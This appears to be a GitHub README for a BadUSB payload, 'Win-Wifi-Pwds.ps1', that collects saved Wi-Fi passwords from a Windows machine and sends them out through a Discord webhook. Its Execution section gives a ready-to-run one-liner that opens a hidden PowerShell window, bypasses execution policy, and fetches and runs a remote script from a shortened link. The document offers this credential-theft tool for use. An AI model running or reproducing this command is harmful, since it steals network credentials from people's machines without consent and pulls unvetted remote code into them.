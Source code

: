 # Win-Wifi-Pwds.ps1 - BadUSB

A script used to exfiltrate WLAN Passwords off of a Windows machine via Discord web hooks.

**Category**: WLAN, Credentials

## Description

A script used to exfiltrate WLAN Passwords off of a Windows machine via Discord web hooks.

Opens a hidden PowerShell window, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook. The webhook message will include the SSID and the password to easily identify credentials and associated SSIDs.

## Execution

The following command will create the "$discord" variable, pull down and invoke the 'Win-Wii-Pwds.ps1' poershell script.

```powershell
powershell -w h -ep bypass $discord='<your_webhook_URL_here>';irm bit.ly/WindowsWiFiPasswordsENG | iex
```

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>